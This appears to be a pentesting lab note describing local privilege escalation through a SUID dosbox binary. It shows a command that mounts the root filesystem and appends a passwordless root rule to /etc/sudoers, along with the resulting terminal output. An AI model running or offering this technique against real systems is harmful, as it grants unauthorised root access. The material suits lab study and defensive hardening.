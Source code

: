 # dosbox SUID

&#x20;With dosbox we can basically mount a folder and then edit it, so if we have SUID. It means that we can edit files that are only editable by root. These could be sudoers, passwd, shadow.&#x20;

![](<../../../../.gitbook/assets/image (20).png>)

{% embed url="https://gtfobins.github.io/gtfobins/dosbox/" %}

```
[commander@nukem ~]$ export LFILE='/etc/sudoers'
[commander@nukem ~]$ dosbox -c 'mount c /' -c "echo commander ALL=(root) NOPASSWD: ALL >>c:$LFILE"
DOSBox version 0.74-3
Copyright 2002-2019 DOSBox Team, published under GNU GPL.
---
ALSA lib confmisc.c:767:(parse_card) cannot find card '0'
ALSA lib conf.c:4743:(_snd_config_evaluate) function snd_func_card_driver returned error: No such file or directory
ALSA lib confmisc.c:392:(snd_func_concat) error evaluating strings
ALSA lib conf.c:4743:(_snd_config_evaluate) function snd_func_concat returned error: No such file or directory
ALSA lib confmisc.c:1246:(snd_func_refer) error evaluating name
ALSA lib conf.c:4743:(_snd_config_evaluate) function snd_func_refer returned error: No such file or directory
ALSA lib conf.c:5231:(snd_config_expand) Evaluate error: No such file or directory
ALSA lib pcm.c:2660:(snd_pcm_open_noupdate) Unknown PCM default
CONFIG:Loading primary settings from config file /home/commander/.dosbox/dosbox-0.74-3.conf
MIXER:Can't open audio: No available audio device , running in nosound mode.
ALSA:Can't subscribe to MIDI port (65:0) nor (17:0)
MIDI:Opened device:none
SHELL:Redirect output to c:/etc/sudoers
```

Change the name of the user to the one your on right now.&#x20;

![](<../../../../.gitbook/assets/image (82).png>)
